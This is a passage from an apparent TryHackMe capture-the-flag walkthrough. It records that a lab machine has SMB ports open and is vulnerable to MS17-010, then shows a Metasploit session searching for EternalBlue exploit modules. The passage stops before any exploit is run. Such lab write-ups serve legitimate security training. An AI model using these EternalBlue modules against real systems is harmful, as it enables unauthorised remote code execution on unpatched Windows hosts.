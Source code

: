 
### How many ports are open with a port number under 1000?
3 (135,139,445)

###  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
ms17-010

------------------------------------------
# Task 2  Gain Access

Exploit the machine and gain a foothold.

Answer the questions below

### Start [Metasploit](https://tryhackme.com/module/metasploit)

msfconsole
```bash
──(root㉿kali)-[~]
└─# msfconsole

  Metasploit Park, System Security Interface
  Version 4.0.5, Alpha E
  Ready...
  > access security
  access: PERMISSION DENIED.
  > access security grid
  access: PERMISSION DENIED.
  > access main security grid
  access: PERMISSION DENIED....and...
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!
  YOU DIDN'T SAY THE MAGIC WORD!


       =[ metasploit v6.2.23-dev                          ]
+ -- --=[ 2259 exploits - 1188 auxiliary - 402 post       ]
+ -- --=[ 951 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use the edit command to open the 
currently active module in your editor
Metasploit Documentation: https://docs.metasploit.com/

msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```